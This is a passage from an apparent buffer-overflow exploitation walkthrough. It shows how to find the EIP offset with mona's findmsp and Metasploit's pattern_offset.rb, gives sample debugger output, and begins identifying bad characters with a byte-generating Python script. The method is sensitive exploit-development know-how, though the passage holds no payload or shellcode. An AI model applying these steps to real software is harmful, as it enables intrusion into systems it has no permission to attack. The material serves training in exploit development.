 Use mona's findmsp command, with the distance argument set to the pattern length.

    ...
    !mona findmsp -distance 666
    
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    **EIP contains normal pattern : 0x78413778 (offset 112)**
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...
NOTE: Mona should display a log window with the output of the command. If not, click "Window" menu and then "Log Data" to view it (Choose "CPU" to switch back to the standard view)

## Method 2

We will now use a second script from Metasploit called pattern_offset.rb. What this script will do is take that value and seeing exactly where it exists in the buffer length we designate, showing us the point where the buffer will crash. 

```
root@gh0x0st:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q pasteESPvaluehere -l 666
[*] Exact match at offset 112
```
## Method 3

You can also use these web generator to find the offset:
1. https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
2. https://wiremask.eu/tools/buffer-overflow-pattern-generator/


# 3. Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

```
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff. Called badchars.py

```
 #!/usr/bin/env python
 from __future__ import print_function

 for x in range(1, 256):
     print("\\x" + "{:02x}".format(x), end='')

 print()
```
